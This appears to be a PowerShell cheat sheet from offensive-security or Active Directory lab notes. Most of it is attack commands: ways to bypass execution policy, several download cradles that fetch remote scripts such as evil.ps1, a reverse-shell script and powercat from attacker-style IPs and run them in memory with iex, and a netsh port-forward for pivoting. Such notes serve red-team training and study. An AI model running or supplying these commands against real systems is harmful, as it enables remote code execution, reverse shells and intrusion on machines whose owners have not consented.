 # PowerShell Basics

### Useful Symbols

```
%	Foreach-Object
?	Where-Object
$_      The variable for the current value in the pipe line

Examples
1,2,3 | %{ write-host $_ } will print 1,2,3
1,2,3 | ?{$_ -gt 1} will print 2,3
```

### Execution Policy

Several ways to bypass

```batch
powershell -ExecutionPolicy bypass
powershell -c <cmd>
powershell -encodedcommand
$env:PSExecutionPolicyPreference="bypass" 
```

### Load PowerShell script

```powershell
. c:\AD\Tools\PowerView.ps1
```

### Import a module

```powershell
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

### List available module commands

```powershell
Get-Command -Module <module_name>
Get-Help <module_name>
```

### Download files

```powershell
iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/Invoke-PowerShellTcp.ps1'));
```

more options

{% code overflow="wrap" %}
```powershell
# Internet Explorer Downoad cradle
$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response


$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()


$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex $h.responseText
```
{% endcode %}

PowerShell v3+

```powershell
iex (iwr http://172.16.100.83/powercat.ps1 -UseBasicParsing)
iex (iwr 'http://192.168.230.1/evil.ps1')
```

Download and store

```powershell
(new-Object Net.WebClient).DownloadFile('http://<IP>/<File>', 'C:\programdata\<File>')
```

### Port Forward

```batch
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.x
```
